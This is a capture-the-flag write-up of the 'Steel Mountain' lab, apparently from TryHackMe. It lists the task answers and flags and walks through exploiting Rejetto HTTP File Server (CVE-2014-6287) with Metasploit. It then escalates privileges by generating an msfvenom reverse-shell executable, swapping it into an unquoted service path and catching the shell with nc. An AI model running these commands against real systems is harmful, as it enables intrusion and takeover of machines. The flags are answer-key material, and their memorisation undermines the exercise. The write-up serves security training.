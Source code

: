# Steel Mountain

> Sep 20, 2021

```bash
export IP=10.10.28.167
```

## Task 1 

1. Who is the employee of the month? 

	`Answer: Bill Harper`

	**Method:** Found inspecting the image element of the web page.

## Task 2 

1. Scan the machine with nmap. What is the other port running a web server on?

	`Answer: 8080`

	**Method:** Nmap scan

2. Take a look at the other web server. What file server is running?

	`Answer: Rejetto HTTP File Server`

	**Method:** Nav to port 8080, check the server information.

3. What is the CVE number to exploit this file server?

	`Answer: CVE-2014-6287`

	**Method:** 

		Use searchsploit which allows you to see vulns.
		
		Search for the exploits:
		>$ searchsploit "Rejetto HTTP File Server"

		When a exploit is found, use -x with the path to gain more information.
		>$ searchsploit -x "windows/remote/34668.txt"

4. Use Metasploit to get an initial shell. What is the user flag?

	`Answer: b04763b6fcf51fcd7c13abc7db4fd365`

	**Method:**

		Use metasploit:
		>$ sudo /opt/metasploit-framework/msfconsole

		Search for your exploit:
		>$ search httpfileserver

		Select:
		>$ use 0

		Look at options:
		>$ show options

		Assign ports/hosts:
		>$ set LHOST tun0
		>$ set RPORT 8080
		>$ set SRVPORT 9090
		>$ set RHOST 10.10.108.242

		Run:
		>$ run

		Now connected, navigate around:
		>$ getuid
		>$ dir

		Navigate to the Desktop dir and cat the flag.

## Task 3

1. 	Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

	`Answer: AdvancedSystemCareService9`

	**Method:** After starting the powershell script, running the `Invoke-AllChecks` command uncovers this.

2. What is the root flag?

	`Answer: 9af5f314f57607c00fd09803a587db80`

	**Method:**
    
		Use msfvenom to generate a reverse shell:
		>$ msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=5555 -f exe -o shell5555.exe

		Upload the shell to meterpretor:
		>$ upload shell5555.exe in the /Windows/Tasks dir.

		Stop the service then copy the shell5555.exe to the correct dir.
		>$ net stop AdvancedSystemCareService9
		>$ copy shell5555.exe "C:/Program Files (x86)/IObit/Advanced Systemcare/ASCService.exe"
		>$ net start AdvancedSystemCareService9

		Start nc on host:
		>$ nc -lnvp 5555

## Task 4

1. What powershell -c command could we run to manually find out the service name? 

	`Answer: powershell -c "Get-Service"`
